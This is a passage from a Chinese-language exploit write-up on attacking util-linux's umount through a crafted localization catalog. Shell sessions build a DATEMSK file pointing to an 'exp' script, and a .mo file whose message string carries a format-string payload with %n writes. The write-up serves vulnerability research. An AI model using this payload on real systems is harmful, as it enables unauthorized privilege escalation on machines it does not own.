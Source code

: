 ```shell
(省略...)/util-linux.mo: GNU message catalog (little endian), revision 0.0, 4 messages


invincible@ubuntu:/proc/10013/cwd$ file \(unreachable\)/tmp/from_archive/X.X/LC_MESSAGES/util-linux.mo 
(省略...)/util-linux.mo: fifo (named pipe)

```

构造的DATEMSK文件内容为/proc/self/exe符号链接指向的文件:

```shell
invincible@ubuntu:/proc/10013/cwd$ cat DATEMSK 
#!/home/invincible/Desktop/test/exp
unused
invincible@ubuntu:/proc/10013/cwd$ file DATEMSK 
DATEMSK: a /home/invincible/Desktop/test/exp script, ASCII text executabl

```

构造特制的util-linux.mo文件内容:

```shell
invincible@ubuntu:~/Desktop/test$ msgunfmt util-linux.mo -o util-linux.po
invincible@ubuntu:~/Desktop/test$ cat util-linux.po 
msgid ""
msgstr ""
"Language: en\n"
"MIME-Version: 1.0\n"
"Content-Type: text/plain; charset=UTF-8\n"
"Content-Transfer-Encoding: 8bit\n"


msgid "%s: mountpoint not found"
msgstr "1234"


msgid "%s: not mounted"
msgstr ""
"AA%6$lnAAAAAA%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx"
(省略... 共256个%16lx)
"%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx"
"%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%1$68hhx%256$hhn"


msgid ""
"%s: target is busy\n"
"        (In some cases useful info about processes that\n"
"         use the device is found by lsof(8) or fuser(1).)"
msgstr "5678"
invincible@ubuntu:~/Desktop/test$ 

```
